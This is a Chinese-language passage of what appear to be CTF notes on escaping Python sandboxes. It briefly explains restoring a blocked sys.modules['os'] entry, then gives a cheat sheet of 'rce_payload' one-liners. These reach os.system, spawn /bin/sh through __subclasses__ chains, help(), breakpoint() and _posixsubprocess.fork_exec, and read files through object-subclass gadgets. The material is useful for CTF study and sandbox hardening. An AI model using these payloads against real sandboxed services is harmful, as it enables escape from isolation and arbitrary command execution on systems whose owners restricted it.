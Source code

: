 在 Python 3 中，reload() 函数被移动到 importlib 模块中，所以如果要使用 reload() 函数，需要先导入 importlib 模块。

### 恢复 sys.modules

一些过滤中可能将 `sys.modules['os']` 进行修改. 这个时候即使将 os 模块导入进来,也是无法使用的.

```python
sys.modules['os'] = 'not allowed'

del sys.modules['os']
import os
os.system('ls')
```



### rce_payload

```python
#起手式
os.system('sh')
os.popen('ls').read()

#属性/字典
getattr(__import__('os'),'system')('dir')
__import__('os').__getattribute__('system')('dir')
__import__('os').__dict__.__getitem__('system')('dir')

#os._wrap_close类
().__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('sh') 

#object类 - warnings.WarningMessage类
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals['linecache'].__dict__['os'].__dict__['system']('ls')
().__class__.__base__.__subclasses__()[137].__init__.__globals__['system']("sh")

#help()函数
help() => os => !sh
help() => __main__
help() => [filename]

#调试器
breakpoint()

#_posixsubprocess.fork_exec
#不同的python版本的_posixsubprocess.fork_exec接受的参数个数不一样
#参考https://ctftime.org/writeup/31883
import os
__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/sh"], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False, None, None, None, -1, None)

#文件读取
open('1.txt').read()

#object类
().__class__.__base__.__subclasses__()[40]("1.txt").read()
().__class__.__bases__[0].__subclasses__()[40]("1.txt").read()
"".__class__.__mro__[-1].__subclasses__()[40]("1.txt").read()
```
